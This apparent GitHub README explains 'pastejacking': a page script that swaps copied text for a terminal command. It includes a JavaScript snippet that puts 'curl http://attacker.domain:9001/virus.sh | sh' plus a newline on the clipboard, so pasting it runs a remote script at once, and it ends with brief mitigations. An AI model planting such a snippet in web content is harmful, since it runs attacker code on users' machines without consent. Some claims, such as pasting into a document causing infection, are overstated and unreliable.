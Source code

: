 # copy-past-Virus
Basically when the text is pasted into a terminal or CMD/PowerShell, the script is executed automatically (because I use \n to create new line) and can cause a variety of things, such as stealing data or installing malware. This is designed to infect a computer by hiding within copied and pasted text or code. As soon as the copied content is pasted into a new document, the malware infects the system, giving hackers access to sensitive information. copy-paste malware is silent operation. They can easily slip under the radar of many antivirus software, making them difficult to detect. Once they have infiltrated a system, they can be used to steal sensitive data such as passwords, financial information, and confidential documents. This is a small JavaScript code to show potential of this attack.

This attack works also on Windows 11 and Ubuntu.

### Test -----> https://youtu.be/EpDkGCL6tXY

# example of attacker script: 
 ```
<script>
document.getElementById('copy').addEventListener('copy', function(e) { e.clipboardData.setData('text/plain', 'curl http://attacker.domain:9001/virus.sh | sh\n'); e.preventDefault(); });
 </script>
```

 **this attack also works on ubuntu users. A command like sudo apt-get update && apt-get upgrade should normally update the repositories and upgrade the packages on a ubuntu system. The attacker will add \n or \r\n for new line. When this happens in a terminal it will automatically execute the code.**

**Another way that malicious code can be introduced into systems through copy and paste is through the use of malicious links. These links can be embedded in text that is copied from a website. When the text/link is pasted into a browser, the link is clicked and the user is taken to a malicious website. This website can then install malware on the user's computer or steal the user's personal information.**

 For now, this is short simple concept and show of kinda smart attack vector but in the future, when I have time, I will learn more about this method and update this repository with more advanced techniques.


# How to avoid this​
Only copy and paste content from trusted sources.

Use a firewall to block suspicious incoming connections.

configure your terminal to avoid new line “\n” or \r\n to stop this attack.


The creator of this repository does not bear any legal consequences if any person uses it inappropriately. The purpose of this is only to show a clever way for bad actors to infect an unaware user, so that the potential victim will know to be careful and how to defend themselves against it.
